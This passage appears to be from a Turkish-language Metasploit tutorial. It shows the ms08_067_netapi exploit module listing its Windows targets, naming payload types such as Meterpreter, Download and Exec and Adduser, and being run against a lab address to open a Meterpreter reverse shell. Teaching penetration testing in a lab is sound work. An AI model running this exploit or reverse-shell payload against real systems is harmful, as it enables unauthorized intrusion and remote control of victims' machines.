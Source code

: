 Modülün hedefindeki sistemleri görüntülemek için `show targets`

```ShellSession
msf exploit(ms08_067_netapi) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 2000 Universal
   2   Windows XP SP0/SP1 Universal
   3   Windows XP SP2 English (AlwaysOn NX)
   4   Windows XP SP2 English (NX)
   5   Windows XP SP3 English (AlwaysOn NX)
   --snip--
   67 Windows 2003 SP2 Spanish (NX)
```

##### Payloads

* Exploit sonrası çalışıp yetkisiz işlevi gerçekleştirecek içerik.
* Metasploit Frameworkde kullanılan üst düzey farklı işlevselliğe sahip payloadlar bulunmaktadır. Bunlardan bazıları;
    * Meterpreter
    * DLL Injection
    * Binary Upload
    * PassiveX
    * Download and Exec 
    * Adduser

`show payloads` komutu ile mevcut payload listesi sıralanabilir. 324 tane var, tabii ki zamanla bu sayı değişecek.

```ShellSession
msf exploit(ms08_067_netapi) > show payloads
```

şimdi is testimizi yapalım. 

```ShellSession
msf exploit(ms08_067_netapi) > set RHOST 192.168.20.10
msf exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 192.168.20.9:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:1334) at
2015-08-31 07:37:05 -0400

meterpreter >
```
